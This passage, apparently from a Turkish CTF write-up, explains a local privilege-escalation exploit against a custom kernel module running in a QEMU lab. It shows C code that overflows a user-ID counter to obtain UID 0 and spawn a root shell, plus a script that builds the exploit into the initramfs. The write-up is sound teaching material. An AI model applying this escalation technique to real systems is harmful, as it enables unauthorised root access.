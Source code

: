 ```c

  if((ret = magic(MAGIC_ADD, "notroot", "notroot")) < 0){
    printf("failed to add the notroot user: %s\n", strerror(-ret));
    return EXIT_FAILURE;
  }

  if((ret = magic(MAGIC_SWITCH, "notroot", NULL)) < 0){
    printf("failed to switch to the notroot user: %s\n", strerror(-ret));
    return EXIT_FAILURE;
  }

  if(getuid() != 0){
    puts("exploit failed :(");
    return EXIT_FAILURE;
  }

  puts("exploit was successful, popping a shell");
  char *args[] = {"/bin/sh", NULL};
  execve("/bin/sh", args, NULL);

  perror("execve failed");
  return EXIT_FAILURE;
}
```
Kaynak kodundan hatırlarsanız, `do_add` yeni eklenen kullanıcının UID'sini döndürüyor:
```diff
+    ret = (long)nextId;
+    nextId++;
+    return ret;
+}
```
Bunu bildiğimizden exploit'imizdeki `while` döngüsü ile UID'yi sınıra getirene kadar artırabiliriz, sınıra geldiğimizde sıradaki kullanıcımızın UID'si 0 olacaktır.
UID'si 0 olan bu kullanıcıyı ekledikten sonra, bize ait, `children` listesinin üyesi bir kullanıcı olduğundan, `do_switch` ile doğrudan parola belirtmeden bu kullanıcıya
geçiş yapabiliriz.

Bu geçişin ardından, herşey doğru giderse, `commit_creds()` ile cred'lerimiz güncellenmiş olacaktır. Ve `getuid()` ile UID'imizi kontrol ettiğimizde root olmamız
gerekir. Bunu kontrol ettikten sonra, exploitimiz bir shell çalıştırıp kontrolü bize veriyor.

Bu exploit'i, `exploit.c` olarak kaydedikten sonra, bize verilen QEMU ortamında denemek için `run.sh` scriptini güncelledim:
```bash
#!/bin/sh -e

mkdir -p dist && pushd dist
  gzip -cd ../dist.cpio.gz | cpio -idm
  musl-gcc -static -o exploit.elf ../exploit.c
  find . | cpio --quiet -H newc -o | gzip -9 -n > ../dist_new.cpio.gz
popd

qemu-system-x86_64 \
        -kernel ./bzImage \
        -initrd ./dist_new.cpio.gz \
    -monitor /dev/null \
        -nographic -append "console=ttyS0"
```
Basitçe initramdisk'e exploit'imizi derleyip ekliyoruz. Derlemek için hem her makinede çalışacak çıktı üretebildiğinden ([cross-compiler](https://en.wikipedia.org/wiki/Cross_compiler)), hem de
daha küçük binary'ler ürretiğinden GCC derleyicisi yerine musl-gcc'yi kullanıyoruz (debian tabanlı dağıtımlarda, `musl-tools` paketini kurarak kurabilirsiniz).
